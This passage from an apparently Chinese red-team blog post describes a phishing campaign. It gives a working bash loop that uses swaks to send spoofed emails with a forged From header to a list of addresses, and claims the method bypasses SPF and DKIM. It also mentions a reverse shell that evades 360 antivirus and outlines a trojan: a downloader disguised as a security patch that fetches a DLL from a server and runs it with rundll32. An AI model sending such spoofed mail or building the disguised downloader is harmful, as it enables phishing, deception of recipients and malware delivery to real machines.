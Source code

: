 写了一个bash脚本用于发送伪造邮件：

```bash
for line in `cat mail`
do
	echo "$line"

	sed "s/xx@xx.net/${line}/g" data.eml | swaks --to $line --from xx@smtp2go.com --h-From '=?UTF-8?B?xx?= <xx@xx.xx.cn>' --server mail.smtp2go.com -p 2525 -au USER -ap PASS --data - > /tmp/send.log
done

```

data.eml是转换出来的邮件正文

![2019-05-21-17-42-16](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/698d54f2ddded0ba33b113f068340a83.png)

该技术是可以绕过SPF及DKIM检测的。

![2019-05-21-17-42-37](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/0a3c5ef878776a5c5fb6ba417892e703.png)

具体参考：https://payloads.online/archivers/2019-05-09/1

由于是反弹cmd做测试，所以不会被360拦截

![2019-05-21-17-43-02](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/ea44f2835c701f186946abcda680e763.png)

邮件效果如下：

![2019-05-21-17-44-03](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/d193cd5828e69874bd7b78155cb74042.png)

## 0x06 一点点收获

![2019-05-21-17-44-37](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/558df13b0a039a35e6a15c94dcb9c816.png)

经过确认，不是客户的机器。

## 0x07 第二个版本

由于之前使用的是QQ输入法签名加载器，当鼠标移动上去会显示程序描述信息，这不是我想要的结果，于是开始手撸木马....

开发环境：

- Windows 10 x64
- Visual Studio 2015

测试环境：

- Windows 7 x64
- 360卫士


## 0x08 木马思路

写一个下载器充当漏洞补丁程序，下载器再去服务器下载DLL模块，使用Rundll32进行加载运行。
